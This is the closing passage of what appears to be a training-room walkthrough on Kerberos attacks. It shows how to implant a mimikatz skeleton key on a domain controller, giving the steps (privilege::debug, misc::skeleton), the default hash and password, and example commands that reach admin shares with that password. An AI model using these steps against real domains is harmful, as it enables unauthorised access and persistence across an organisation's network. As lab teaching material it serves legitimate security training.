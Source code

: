 The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password mimikatz

This will only be an overview section and will not require you to do anything on the machine however I encourage you to continue yourself and add other machines and test using skeleton keys with mimikatz.

### Skeleton Key Overview 

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

> **Warning**: A skeleton key only works using Kerberos RC4 encryption.

> **Note**: The default hash for a mimikatz skeleton key is `60BA4FCADC466C7A033C178194C03DF6` which makes the password _“mimikatz”_

### Preparing Mimikatz 

1. `cd Downloads && mimikatz.exe` – Navigate to the directory mimikatz is in and run mimikatz
2. `privilege::debug` – This should be a standard for running mimikatz as mimikatz needs local administrator access

### Installing the Skeleton Key w/ mimikatz 

1. `misc::skeleton` – Yes! that’s it but don’t underestimate this small command it is very powerful

### Accessing the forest 

The default credentials will be: `mimikatz`

* example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` – The share will now be accessible without the need for the Administrators password
* example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` – access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.

## Conclusion 

We’ve gone through everything from the initial enumeration of Kerberos, dumping tickets, pass the ticket attacks, kerberoasting, AS-REP roasting, implanting skeleton keys, and golden/silver tickets. I encourage you to go out and do some more research on these different types of attacks and really find what makes them tick and find the multitude of different tools and frameworks out there designed for attacking Kerberos as well as active directory as a whole.

You should now have the basic knowledge to go into an engagement and be able to use Kerberos as an attack vector for both exploitations as well as privilege escalation.
